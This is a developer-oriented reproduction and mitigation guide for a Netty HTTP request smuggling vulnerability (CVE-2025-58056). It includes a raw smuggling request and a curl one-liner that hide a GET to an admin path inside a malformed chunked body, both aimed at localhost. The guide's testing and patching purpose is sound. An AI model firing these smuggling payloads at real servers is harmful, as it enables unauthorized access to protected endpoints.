 # CVE-2025-58056 Reproduction Guide

## Vulnerability Details
- **CVE ID**: CVE-2025-58056
- **Component**: Netty (HTTP request smuggling)
- **Vulnerable Version**: 4.1.124.Final
- **Fixed Version**: 4.1.125.Final
- **Severity**: HIGH

## How to Reproduce

### 1. Create Test Project with Vulnerable Netty

```xml
<!-- Temporarily revert to vulnerable version for testing -->
<dependency>
    <groupId>io.netty</groupId>
    <artifactId>netty-bom</artifactId>
    <version>4.1.124.Final</version>
    <type>pom</type>
    <scope>import</scope>
</dependency>
```

### 2. HTTP Request Smuggling Test

The vulnerability allows HTTP request smuggling by sending malformed chunked transfer encoding:

```http
POST /api/endpoint HTTP/1.1
Host: localhost:8080
Content-Type: application/json
Transfer-Encoding: chunked

5
{"test": "data"}
0

GET /admin/sensitive-data HTTP/1.1
Host: localhost:8080

```

### 3. Expected Behavior

**Vulnerable Version (4.1.124.Final):**
- Netty incorrectly parses the LF-only line terminator
- May process the smuggled request
- Could lead to unauthorized access

**Fixed Version (4.1.125.Final):**
- Netty correctly requires CRLF line terminators
- Rejects malformed requests
- Prevents request smuggling

## Testing Tools

### 1. Manual Testing with curl
```bash
# Test with vulnerable version
curl -X POST http://localhost:8080/api/test \
  -H "Content-Type: application/json" \
  -H "Transfer-Encoding: chunked" \
  --data-binary $'5\n{"test": "data"}\n0\n\nGET /admin HTTP/1.1\nHost: localhost:8080\n\n'
```

### 2. Automated Testing with Burp Suite
- Use Burp Suite's HTTP Request Smuggling extension
- Target: Your Spring Boot application
- Look for request smuggling vulnerabilities

### 3. Custom Test Script
```java
// Create a test endpoint that processes chunked requests
@RestController
public class TestController {
    
    @PostMapping("/test-chunked")
    public ResponseEntity<String> testChunked(@RequestBody String body) {
        // This endpoint would be vulnerable to request smuggling
        // if using Netty 4.1.124.Final
        return ResponseEntity.ok("Processed: " + body);
    }
}
```

## Verification Steps

### 1. Check Netty Version
```bash
mvn dependency:tree | grep netty-codec-http
```

### 2. Test Request Processing
- Send malformed chunked requests
- Monitor application logs
- Check for unexpected request processing

### 3. Security Headers
- Ensure proper HTTP parsing
- Verify chunked transfer encoding handling
- Check for request smuggling indicators

## Mitigation

### 1. Update Netty (Recommended)
```xml
<dependency>
    <groupId>io.netty</groupId>
    <artifactId>netty-bom</artifactId>
    <version>4.1.125.Final</version>
    <type>pom</type>
    <scope>import</scope>
</dependency>
```

### 2. Additional Security Measures
- Use reverse proxy with proper HTTP parsing
- Implement request validation
- Monitor for unusual request patterns
- Use security headers

## Notes

- This vulnerability is primarily exploitable in specific configurations
- The impact depends on your application's architecture
- Testing should be done in a controlled environment
- Always test security fixes in staging before production
